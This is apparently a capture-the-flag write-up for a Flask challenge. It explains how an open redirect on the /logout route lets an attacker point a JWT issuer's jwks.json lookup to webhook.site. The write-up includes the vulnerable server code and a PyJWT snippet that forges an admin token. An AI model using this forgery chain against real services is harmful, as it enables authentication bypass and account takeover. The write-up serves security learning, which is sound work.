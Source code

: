 ## Skills involved: Open Redirect + JWT Token Forgery

This challenge is very clear about what to do. I have read of the exploit some time ago but actually crafting one is super fun.

## Solution:

Upon visiting the site, we're greeted by this friendly message:

![image](https://user-images.githubusercontent.com/114584910/193477052-fa816151-8349-484e-b717-83e915c705c3.png)

*OK*. After pulling the source down I checked if there's any outdated packages - none.

I was not very familiar with the Python Flask framework but here's a summary:
- Anything, absolutely anything will be used in the `template.html` template due to `@app.after_request` (*remark: there is no SSTI*)
- There's a jwks.json file that gives a public key used by the server (*remark: it is not possible to crack it - I tried*)
- Accessing `/api/flag` as admin will give us the flag right away. (*remark: this can be confirmed by removing the authorize code*)

The *key* here is that we can *CHOOSE* our host for the jwks.json:

```py
valid_issuer_domain = os.getenv("HOST")
valid_algo = "RS256"
def get_public_key_url(token):
    is_valid_issuer = lambda issuer: urlparse(issuer).netloc == valid_issuer_domain

    header = jwt.get_unverified_header(token)
    if "issuer" not in header:
        raise Exception("issuer not found in JWT header")
    token_issuer = header["issuer"]

    if not is_valid_issuer(token_issuer):
        raise Exception(
            "Invalid issuer netloc: {issuer}. Should be: {valid_issuer}".format(
                issuer=urlparse(token_issuer).netloc, valid_issuer=valid_issuer_domain
            )
        )

    pubkey_url = "{host}/.well-known/jwks.json".format(host=token_issuer)
    return pubkey_url
```

While the domain is whitelisted and a proper URL check is done (as opposed to cringy `/^http:\/\/localhost:8080/`), there's another **open-redirect vulnerability**. Namely we can redirect the server to our own domain, bypassing the whitelist:

```py
@app.route("/logout")
def logout():
    session.clear()
    redirect_uri = request.args.get('redirect', url_for('home'))
    return redirect(redirect_uri)
```

This is basically a challenge based on https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/, which included this exact exploitation path.

Now comes the technical part:
- For crafting the public/private key pair:
  - I referenced:
    - https://blog.digital-craftsman.de/generate-a-new-jwt-public-and-private-key/
    - https://www.misterpki.com/openssl-genrsa/
  - Being a self-proclaimed RSA expert, I used openssl to do the work.
- For hosting the key:
  - I once had immense difficulty on this when another challenge from somewhere else asked me to host an HTML file for CSRF.
  - Thanks to this challenge I realized that we all have a very powerful tool that we all already know: https://webhook.site
  - *Yes, we can change the default return message, status code and content type with webhook.site*
  - Remark: care needed to be taken to create the correct data structure, remove leading and trailing content, etc
- For generating signed JWT:
  - I used the PyJWT package, but using https://jwt.io is equally fine:

```py
import jwt

private_key = open("private.pem").read().strip()
public_key = open("public.pem").read().strip()

encoded=jwt.encode({"user":"admin"}, private_key, algorithm="RS256",
headers={"issuer":"http://localhost:8080/logout?redirect=https://webhook.site/..."})
```

The flag should come to you in no time.
